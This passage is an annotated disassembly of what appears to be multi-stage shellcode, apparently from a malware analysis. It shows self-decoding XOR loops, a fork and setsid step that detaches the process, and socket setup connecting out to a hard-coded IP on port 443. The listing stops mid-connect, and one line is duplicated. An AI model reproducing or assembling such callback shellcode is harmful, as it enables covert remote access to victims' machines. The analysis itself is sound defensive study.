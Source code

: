 ```
   0x080480ce:	mov    cl,0x36
   0x080480d0:	add    esi,0x4
   0x080480d3:	xor    DWORD PTR [esi+0xe],edx              ; initial value 0xfd3089b0
   0x080480d6:	add    edx,DWORD PTR [esi+0xe]
   0x080480d9:	loop   0x80480d0                            ; 5th decode
   0x080480db:	mov    esi,0x35c3c885
   0x080480e0:	fincstp 
   0x080480e2:	fnstenv [esp-0xc]
   0x080480e6:	pop    edx
   0x080480e7:	xor    ecx,ecx
   0x080480e9:	mov    cl,0x2f
   0x080480eb:	xor    DWORD PTR [edx+0x13],esi             ; initial value 0x35c3c885
   0x080480ee:	add    esi,DWORD PTR [edx+0x13]
   0x080480f1:	sub    edx,0xfffffffc
   0x080480f4:	loop   0x80480eb                            ; 6th decode loop
   0x080480f6:	mov    eax,0x59a96d9c
   0x080480fb:	fcmovnbe st,st(5)
   0x080480fd:	fnstenv [esp-0xc]
   0x08048101:	pop    ebp
   0x08048102:	xor    ecx,ecx
   0x08048104:	mov    cl,0x28
   0x08048104:	mov    cl,0x28
   0x08048106:	add    ebp,0x4
   0x08048109:	xor    DWORD PTR [ebp+0x10],eax                 ; initial value 0x59a96d9c
   0x0804810c:	add    eax,DWORD PTR [ebp+0x10]
   0x0804810f:	loop   0x8048106                                ; 7th decode loop
   0x08048111:	push   0x2
   0x08048113:	pop    eax
   0x08048114:	int    0x80                                      ; systemcall 0x2 (fork)
   0x08048116:	test   eax,eax
+--0x08048118:	je     0x8048120
|+>0x0804811a:	xor    eax,eax
|| 0x0804811c:	mov    al,0x1
|| 0x0804811e:	int    0x80                                      ; systemcall 0x1 exit
+->0x08048120:	mov    al,0x42
 | 0x08048122:	int    0x80                                      ; systemcall 0x42 setsid
 | 0x08048124:	push   0x2
 | 0x08048126:	pop    eax
 | 0x08048127:	int    0x80                                      ; systemcall 0x2 fork
 | 0x08048129:	test   eax,eax
 +-0x0804812b:	jne    0x804811a
   0x0804812d:	push   0xa
   0x0804812f:	pop    esi
  +0x08048130:	xor    ebx,ebx
  |0x08048132:	mul    ebx
  |0x08048134:	push   ebx
  |0x08048135:	inc    ebx
  |0x08048136:	push   ebx
  |0x08048137:	push   0x2
  |0x08048139:	mov    al,0x66
  |0x0804813b:	mov    ecx,esp                                  ; #socketcall
  |0x0804813d:	int    0x80                                     ; systemcall 0x66 socket( AF_INET, SOCK_STREAM, 0 )
  |0x0804813f:	xchg   edi,eax
  |0x08048140:	pop    ebx
  |0x08048141:	push   0x71365f8d
  |0x08048146:	push   0xbb010002                               ; IP 192.241.191.104:443
  |0x0804814b:	mov    ecx,esp
  |0x0804814d:	push   0x66
  |0x0804814f:	pop    eax
  |0x08048150:	push   eax
  |0x08048151:	push   ecx
  |0x08048152:	push   edi
```